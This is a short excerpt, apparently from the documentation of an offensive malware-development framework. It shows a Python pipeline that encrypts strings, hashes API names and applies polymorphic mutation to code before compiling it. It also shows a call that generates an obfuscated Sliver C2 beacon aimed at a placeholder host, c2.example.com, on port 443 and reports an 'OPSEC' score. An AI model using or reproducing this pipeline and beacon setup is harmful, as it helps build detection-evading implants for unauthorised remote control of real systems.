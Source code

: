 **Mutation Levels:**
- `low` - Minor changes (10-20% different)
- `medium` - Moderate changes (30-50% different)
- `high` - Major changes (60-80% different)

### Combined Obfuscation

```python
# Full obfuscation pipeline
from server.obfuscation.string_encryption import StringEncryptor
from server.obfuscation.api_hashing import APIHasher
from server.polymorphic.engine import PolymorphicEngine

# 1. Encrypt strings
encryptor = StringEncryptor(method='aes')
code = encryptor.encrypt_code(source_code)

# 2. Hash APIs
hasher = APIHasher(algorithm='djb2')
code = hasher.hash_apis(code)

# 3. Polymorphic mutation
engine = PolymorphicEngine()
code, stats = engine.generate_variant(code, mutation_level='high')

# 4. Compile
response = requests.post('http://localhost:5000/api/compile', json={
    'source_code': code,
    'architecture': 'x64'
})
```

---

## C2 Integration

See **[C2_INTEGRATION.md](C2_INTEGRATION.md)** for complete C2 setup.

### Generate Sliver Beacon

```python
from c2_adapters import generate_sliver_beacon

result = generate_sliver_beacon(
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    techniques=["NOCTIS-T124", "NOCTIS-T118"],
    obfuscate=True
)

print(f"Beacon: {result.beacon_path}")
print(f"Size: {result.beacon_size} bytes")
print(f"OPSEC: {result.opsec_score}/10")
```
